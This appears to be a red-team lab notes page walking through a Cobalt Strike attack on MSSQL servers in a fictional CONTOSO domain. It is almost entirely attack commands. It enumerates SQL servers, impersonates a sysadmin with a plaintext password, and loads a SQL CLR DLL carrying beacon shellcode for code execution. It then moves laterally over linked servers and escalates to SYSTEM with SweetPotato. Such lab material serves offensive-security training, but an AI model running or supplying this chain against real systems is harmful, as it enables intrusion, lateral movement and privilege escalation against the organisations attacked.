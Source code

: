 
Search for MSSQL servers configured for Kerberos authentication.
```powershell
ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName
```

Basic enumeration - we want to be a sysadmin
```powershell
sql-info lon-db-1
sql-whoami lon-db-1
```

Impersonate a sysadmin user
```powershell
make_token CONTOSO\rsteel Passw0rd!

sql-whoami lon-db-1
```

---

##### SQL CLR RCE

Check if CRL is enabled and enable if needed
```powershell
sql-query lon-db-1 "SELECT value FROM sys.configurations WHERE name = 'clr enabled'"

sql-enableclr lon-db-1
```

 Open Visual Studio and create a new [Class Library (.NET Framework)](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Access%2FLab) project:
    
    1. Project name: MyProcedure.
    2. Place in the same directory: Checked
    3. Add _smb_x64.xthread.bin_ and set build action to an embedded resource            (threaded shell code).

> We want the shell code running as a thread so if we exit the beacon and it's running in the database process, it won't tear down the database process and just the beacon thread

Use the code found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Access%2FPayloads%2FSQL%20CLR%20Payload)

 >This will perform classic injection where the Beacon will run inside the MS SQL process.

 Load the DLL onto the server
```powershell
sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure
```

Link to existing beacon
```powershell
 link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
```

Disable SQL CLR 
```powershell
sql-disableclr lon-db-1
```

--- 

##### Lateral movement

Enumerate SQL Links
```powershell
sql-links lon-db-1
```

Verify privileges on linked DB
```powershell
sql-whoami lon-db-1 "" lon-db-2
```

Check if RPC Out is enabled on the link ; enable if required
```powershell
sql-checkrpc lon-db-1

sql-enablerpc lon-db-1 lon-db-2
```

Execute SQL CLR payload on link
```powershell
sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure "" lon-db-2
```

Link beacon on link to beacon on DB1
```powershell
‌link lon-db-2 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
```

---

##### Privilege Escalation

Enumerate token privileges
```poweshell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
```

Upload payload to service directory
```powershell
cd C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps

upload C:\Payloads\tcp-local_x64.exe
```

Execute payload as SYSTEM with SweetPotato
```powershell
execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p "C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps\tcp-local_x64.exe"
```

Connect to new P2P Beacon
```powershell
connect localhost 1337
```